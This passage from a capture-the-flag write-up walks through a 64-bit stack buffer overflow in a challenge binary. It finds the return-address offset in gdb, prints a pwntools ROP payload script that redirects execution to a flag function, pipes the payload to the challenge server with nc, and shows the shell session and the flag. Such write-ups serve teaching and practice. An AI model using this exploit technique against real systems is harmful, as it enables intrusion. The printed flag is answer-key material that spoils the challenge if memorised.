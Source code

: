 We wrote the value 0x3941416a to the instruction pointer and the segmenation fault was casued because this isn't a valid address in our code. Let's find the offset of that value in our input pattern file:

```
gdb-peda$ pattern_offset 0x3941416a
960577898 found at offset: 120
```

Our offset is at 120 bytes. So we need to write 120 bytes of junk before we overflow the return address. Now we can write a script to build our payload string. We'll output the string to a file that we can direct into the pwnable program. Note that I use the pwn p64 function to pack the addresses in 64-bit Little Endian format.

```
#!/usr/bin/python3
import pwn

buf += b"A"*120                        # send 120 bytes of junk to fill up the input buffer and the saved base pointer
buf += pwn.p64(0x400693)               # call our "pop rdi; ret;" gadget
buf += pwn.p64(0xdeadbeef)             # put 0xdeadbeef on the stack so that it will be popped into rdi by our gadget
buf += pwn.p64(0x4005ea)               # call the get_flag function

f = open("payload.hex", "wb")          # write our bytes to a file that we can inject into the pwnable program
f.write(buf)
```

With our payload built, the last thing to do is inject it into the pwnable program on the remote server. Note that we need to include the hyphen after "payload.hex" so that the program doesn't automatically return after our payload.

```
tmp@localhost:~/ctf/utctf/bof$ cat payload.hex - | nc binary.utctf.live 9002
I really like strings! Please give me a good one!

Thanks for the string
ls
flag.txt
cat flag.txt
utflag{thanks_for_the_string_!!!!!!}
```
Once we have our shell, the flag was in a text file "flag.txt" in the same directory.

**Flag** 
```
utflag{thanks_for_the_string_!!!!!!}
```
